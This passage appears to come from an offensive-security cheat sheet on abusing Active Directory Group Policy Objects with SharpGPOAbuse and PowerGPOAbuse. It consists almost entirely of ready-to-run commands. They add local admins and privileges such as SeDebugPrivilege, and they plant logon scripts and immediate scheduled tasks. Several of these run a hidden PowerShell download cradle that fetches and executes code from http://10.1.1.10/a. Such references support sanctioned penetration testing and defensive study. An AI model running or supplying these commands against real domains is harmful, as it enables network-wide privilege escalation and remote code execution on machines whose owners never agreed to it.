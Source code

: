 ```powershell
# Build and configure SharpGPOAbuse
$ git clone https://github.com/FSecureLABS/SharpGPOAbuse
$ Install-Package CommandLineParser -Version 1.9.3.15
$ ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll

# Adding User Rights
.\SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Adding a Local Admin
.\SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"

# Configuring a User or Computer Logon Script
.\SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"

# Configuring a Computer or User Immediate Task
# /!\ Intended to "run once" per GPO refresh, not run once per system
.\SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
.\SharpGPOAbuse.exe --AddComputerTask --GPOName "VULNERABLE_GPO" --Author 'LAB.LOCAL\User' --TaskName "EvilTask" --Arguments  "/c powershell.exe -nop -w hidden -enc BASE64_ENCODED_COMMAND " --Command "cmd.exe" --Force
```

### Abuse GPO with PowerGPOAbuse

* https://github.com/rootSySdk/PowerGPOAbuse

```ps1
PS> . .\PowerGPOAbuse.ps1

# Adding a localadmin 
PS> Add-LocalAdmin -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Assign a new right 
PS> Add-UserRights -Rights "SeLoadDriverPrivilege","SeDebugPrivilege" -Identity 'Bobby' -GPOIdentity 'SuperSecureGPO'

# Adding a New Computer/User script 
PS> Add-ComputerScript/Add-UserScript -ScriptName 'EvilScript' -ScriptContent $(Get-Content evil.ps1) -GPOIdentity 'SuperSecureGPO'

# Create an immediate task 
PS> Add-GPOImmediateTask -TaskName 'eviltask' -Command 'powershell.exe /c' -CommandArguments "'$(Get-Content evil.ps1)'" -Author Administrator -Scope Computer/User -GPOIdentity 'SuperSecureGPO'
```

### Abuse GPO with pyGPOAbuse
